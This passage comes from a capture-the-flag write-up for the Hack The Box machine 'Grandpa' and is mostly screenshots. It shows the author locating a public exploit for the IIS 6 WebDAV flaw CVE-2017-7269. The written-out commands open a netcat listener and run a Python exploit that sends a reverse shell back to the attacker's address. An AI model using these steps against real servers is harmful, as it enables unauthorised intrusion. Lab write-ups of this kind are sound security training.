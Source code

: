 <br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With `searchploit` I can search for the **URL** of the exploit, this way I know the **CVE** and look for an exploit that some professional of the community has developed and has it available in **Github**. The first one I find is from **[homjxi0e](https://github.com/homjxi0e/cve-2017-7269){:target="_blank"}** but it is written in **Ruby** and I would have to compile it, so I continue my search and I'm lucky because there is one in **Python** that allows to get a reverse shell, it is from **[g0rx](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269){:target="_blank"}**. So I download it on my machine and run it to know what values I should pass, then I open with `nc` a port waiting for the remote connection and exploit the vulnerability with the exploit and succeed in accessing the box.

> **Attacker Machine**:

```bash
searchsploit -w windows/remote/41738.py

mv /home/al3j0/Downloads/cve-2017-7269-master.zip .
unzip -d cve-2017-7269 cve-2017-7269-master.zip

mv /home/al3j0/Downloads/iis6_reverse_shell ./
file iis6_reverse_shell
cat iis6_reverse_shell | head -n 3
mv iis6_reverse_shell iis6_reverse_shell.py
python3 iis6_reverse_shell.py
# :(
python2 iis6_reverse_shell.py
# :)
rlwrap -cAr nc -nlvp 443
python2 iis6_reverse_shell.py 10.10.10.14 80 10.10.14.22 443
```

> **Victime Machine**:

```cmd
whoami
hostname
```

<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
